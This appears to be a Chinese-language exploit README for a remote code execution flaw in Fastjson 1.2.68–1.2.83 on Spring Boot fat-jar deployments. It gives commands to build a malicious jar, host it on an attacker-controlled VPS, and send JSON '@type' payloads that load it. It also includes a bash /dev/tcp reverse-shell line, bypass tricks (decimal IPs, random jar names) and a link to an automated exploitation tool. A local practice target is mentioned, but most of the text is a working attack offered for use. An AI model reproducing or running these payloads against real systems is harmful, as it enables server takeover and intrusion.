




# FastJson反序列化漏洞利用(CVE-2026-16723)

## 影响范围
- Fastjson 1.2.68 - 1.2.83(含)

## 利用条件：
- Spring Boot FatJar + JDK 8 + 目标能出网
- （目标运行在 Spring Boot 可执行 fat-jar 模式下，即通过 java -jar xxx.jar 启动。该模式是 Spring Boot 应用最常见的部署方式）

## 漏洞利用：
### step1: 生成exp jar文件
```java
# 编译
javac -cp "poc/lib/*" -d poc poc/Exp.java
# 生成（参数: IP 端口 命令）
java -cp "poc:poc/lib/asm-9.6.jar:poc/lib/fastjson-1.2.83.jar" Exp vpsIp vpsPort "执行命令"
# 反弹 shell命令：bash -i >& /dev/tcp/VPS/port 0>&1
```  
会在poc/output/目录下生成随机名称`jar`文件（去掉.jar后缀）和`class`文件，并显示请求的POC  
⚠️这个名称必须要随机，具体原因看下面  


### step2: 启动HTTP托管
将`probe`文件上传到vps上，并启动HTTP服务托管生成的`probe`文件或class文件。  
`python3 -m http.server vps-port`

### step3: 发送poc
根据生产的POC，发送HTTP请求到目标服务器，触发Fastjson反序列化漏洞，执行远程命令。
```http
POST /xxx HTTP/1.1
Connection: keep-alive
Content-Type: application/json

 {"@type":"jar:http:..vpsIp:vpsPort.skivl!.zjv","x":1}
 或
 {"@type":"http:..vpsIp:vpsPort.imj"}
```  
  


## 自动化利用工具
[fastjsonTools.jar](poc/fastjsonTools.jar)  
要求：使用JDK8  

## 注意：
- 为什么ip要用十进制的形式？
  - 因为Fastjson在经过typeName.replace('.', '/')时，会把所有的点替换成斜杠，正常ip的写法会失效，ip的十进制写法解决了这个问题。  
  - [十进制转换工具](poc/ipconv.py)  
- 为什么每次生产的jar文件名称要随机？
  - 因为Fastjson在反序列化时会缓存已经加载过的类，如果jar文件名称不变，第二次触发漏洞时，Fastjson会直接使用缓存的类，而不会重新加载jar文件，从而导致无法执行命令。

## 漏洞原理：
[fastjson 1.2.83 JSONType RCE详解.pdf](./fastjson%201.2.83%20JSONType%20RCE详解.pdf)  
大佬写的文章，原文地址：https://mp.weixin.qq.com/s/_4Tnren1hIBToZvHlaKq8w

## 靶场环境：
使用JDK8启动：
`java -jar fastjson-rce-env-1.0.0.jar`  
访问 `http://127.0.0.1:18080/` 确认启动成功  


